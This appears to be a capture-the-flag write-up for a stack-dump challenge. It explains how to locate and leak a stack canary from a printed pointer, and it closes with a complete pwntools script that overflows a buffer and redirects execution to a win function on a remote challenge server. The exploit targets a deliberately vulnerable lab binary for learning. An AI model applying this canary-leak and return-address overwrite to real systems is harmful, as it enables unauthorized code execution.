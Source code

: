 ```
```
So we have to leak this canary value. But before we can we need to figure out the address of this value. Let's now inspect the address we are given at the start of the program (the "useful pointer"). I traced the `printf` statement that prints out the address, to this set of instructions:
```
 8048730:       8d 45 8f                lea    eax,[ebp-0x71]
 8048733:       50                      push   eax
 8048734:       8d 83 c0 e9 ff ff       lea    eax,[ebx-0x1640]
 804873a:       50                      push   eax
 804873b:       e8 90 fd ff ff          call   80484d0 <printf@plt>
```
So ebx-0x1640 is the location of the string that gets printed out and ebp-0x71 is the "useful stack pointer". This pointer is clearly constantly offset from the canary at ebp-0x8 so we know that the canary is at `useful_pointer + 0x71 - 0x8`.
Now that we have the canary's address we need to leak it. Instinctively this will likely be done with option b) dump memory. First I did a quick test of option a (input data) by specifying length 70 (arbitrary choice) and entered 70 A's. Then when I dumped the memory it tried to dump from 0x41414141 (0x41 is ASCII for 'A'), so I overwrote that address somewhere with my A's.
After using binary ninja to trace the code branches, the reason for this becomes apparent. ebp-0x68 is used to store the input length, then it is used to store the actual data we enter, and on top of that, the value of ebp-0x68 is used as the address to dump memory from.
Now we can craft a payload. First we'll need some padding data to fill in the gap between ebp-0x68 and ebp-0x8 (canary), whcih is 0x60 or 96 bytes. Then we place our canary value which takes up from ebp-0x8 til ebp-0x4. Then we pad another 8 bytes to fill from ebp-0x4 to ebp+0x4, where we can then overwrite the return address with the address of the win function. The final exploit looks like this:

```
from pwn import *

p = remote('plsdonthaq.me', 2004)
#p = process('./stack-dump')

p.recvuntil('pointer ')
#useful pointer is at ebp-0x71 and stack canary is at ebp-0x8
canary_addr = p32(int(p.recvline().rstrip(), 16) + 0x71 - 0x8)
p.recvlines(4)
p.sendline('a')
p.recvuntil('len: ')
p.sendline('4')
p.sendline(canary_addr)
p.recvlines(10)
p.sendline('b')
p.recvuntil(': ')
canary_val = p.recvline().rstrip()[:4]
# pad from ebp-0x60 (input buffer) to ebp-0x8 (canary location)
padding = b'A'*0x60
# pad from ebp-0x4 (after canary) to ebp+0x4 (location of return address)
padding2 = b'A'*0x8
win_addr = p32(0x080486c6)
payload = padding + canary_val + padding2 + win_addr
p.recvlines(4)
p.sendline('a')
p.recvuntil('len: ')
p.sendline(str(len(payload)))
p.sendline(payload)
p.recvlines(10)
p.sendline('d')
p.interactive()

```
